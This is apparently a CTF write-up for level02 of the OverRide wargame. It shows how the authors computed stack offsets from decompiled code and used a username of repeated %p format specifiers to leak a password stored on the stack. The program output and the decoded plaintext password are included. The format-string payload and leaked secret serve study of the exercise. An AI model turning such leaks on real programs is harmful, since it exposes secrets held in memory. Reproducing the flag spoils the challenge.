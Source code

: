 By analyzing the decompilated code we can see some vulnerabilities, 
at first we think thath the point of the exercise was to call:
system("/bin/sh");

but we had to pass the strncmp and for us it was very hard so
we decided to do a string attack:

First thing we've done, is to calculate the distances between s and ptr.
Because ptr is containing the password and if we find the distance between s and ptr we could print the memory and find what was inside the stack so the password.

we know by looking the decompilated code that s is rbp-70h and ptr  is rbp-A0h => a0 = 160 and 70 = 112 => we've tried with theses values
but we didnt find the reel start of s we didnt find were was ptr.

So we decided to do the same thing but with s2 rbp-110h:
110 => 272
a0  => 160

272 - 160 = 112 ==> divide by 8 to have blocks of memory in 64 bits
=> 112 / 8 = 14 => So the distance between s2 and ptr is 14 blocks

We also know that the password is 41 bytes long (29 in hex),
so 41 / 8 = 5 => so the password is 5 blocks of memory long.

https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/
In 64 bits we've print the memory with %p.

level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************                                                   | HERE START OF S2
0x7fffffffe4d0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a  0x7fffffffe6c8 0x1f7ff9a08 0x41414141 (nil) (nil)  (nil) (nil) (nil) (nil) (nil)  (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
                              | Beginig of ptr                                                                               | end of ptr

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d => this is ptr so the password

756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d

pass it through decrypt.cpp

Hexadecimal: 756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d
ASCII: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
